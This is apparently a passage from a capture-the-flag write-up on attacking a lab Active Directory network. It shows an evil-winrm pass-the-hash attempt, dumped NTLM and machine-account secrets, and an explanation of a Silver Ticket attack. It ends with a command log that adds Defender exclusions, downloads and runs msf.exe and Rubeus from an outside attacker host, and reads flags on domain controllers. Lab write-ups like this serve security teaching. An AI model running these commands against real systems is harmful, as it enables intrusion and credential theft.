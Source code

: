 ```bash
$ evil-winrm -i 172.16.0.2 -u 'Amministratore' -H '962f1689e7b6bfaf8fa7dbb1781fd2bc' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Error: An error of type ArgumentError happened, message is unknown type: 2577786541

Error: Exiting with code 1
```

Googling the error message `unknown type: 2577786541` doesn't yield any useful results. We could try all the other credentials, try to crack the password hashes, or try the default password, but none of these approaches will work, as NTLM authentication is disabled.

#### Silver Ticket Attack

So if we can't authenticate using the insecure NTLM protocol, what other options do we have? Well, we can try to authenticate using the secure Kerberos protocol.

When authenticating using Kerberos, a user requests a ticket-granting ticket (TGT) from the Key Distribution Center (KDC) (the domain controller in Active Directory) and then uses the TGT to request a service ticket from the KDC. The service ticket is then presented to the service to authenticate the user. In this case, we don't have network access to the domain controller, so we can't request any Kerberos tickets.

However, a service ticket is encrypted with a key that only the domain controller and the service account know. This key is derived from the service account's password. In this case, the service we want to access is WinRM, and the service account is the machine account of the factory PC.

The `secretsdump.py` command used earlier also outputs the machine account credentials:

```bash
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:c058534e5e05469cc698b6859b787063a88e5163cfe28b55bca8b043584850707dbcaf532002cec21b84caf740013ee5c69bbfa3dd854226816975775328adb68c96f3c2b11e74fa84c63a9a0fa91fd88518589b35c1dbb2219dc1f002134f3145565f15cf890f6d9c21caadacf00b55801e3ec84c572760a4830d7762857138ebba798d1c073cf1d9f583d801c3ab61e7c0cc1f5e5c39a9bff01e377e46de41999244ade52522b62feebcc281a9a9d53ea34ebae842824fcc9b5ec80358867baf74e09049f31ece0223edde04f0ddff4aa4a90688977eeea1fb3c2d016e03d0ef1dc5544e5d86b56eb4403b23e9eb72
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3fcd6691d04caf52f495112380ca5cdf
```

This should allow us to forge a service ticket ourselves and encrypt it with the credentials of the machine account. This attack is known as a [Silver Ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket).


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      
